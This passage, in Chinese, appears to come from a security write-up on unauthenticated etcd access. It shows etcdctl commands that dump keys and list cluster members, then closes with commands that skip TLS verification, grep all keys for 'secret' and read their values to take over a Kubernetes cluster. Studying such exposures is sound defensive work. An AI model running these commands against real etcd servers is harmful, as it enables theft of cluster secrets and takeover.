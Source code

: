 限制结果条数

```
etcdctl --endpoints=127.0.0.1:2379 get / --prefix --limit=2
```

![image-20230526191202650](images/9.png)

列出当前目标所属同一集群的所有节点

```
etcdctl --endpoints=127.0.0.1:2379 member list  
```

更多使用方法可以在etcdctl项目的README.md、READMEv2.md文档里查看，分别对应v3、v2版本api。

![image-20230526191512871](images/10.png)



## 危害

可能我们这里只演示了获取键值等操作，看不出危害，其实这里etcd作为一个数据库里面肯定是会存储很多东西的，而且操作也看到不只这一点，还可以创建用户等，添加成员引入etcd集群等等

平常的话，通过这个漏洞，我们可以拿到token，接管k8s集群

```
etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=https://127.0.0.1:2379/ get / --prefix --keys-only|sort|uniq| grep secret

然后找到后再去看其值

etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=https://127.0.0.1:2379/ get 刚才找到的key
```
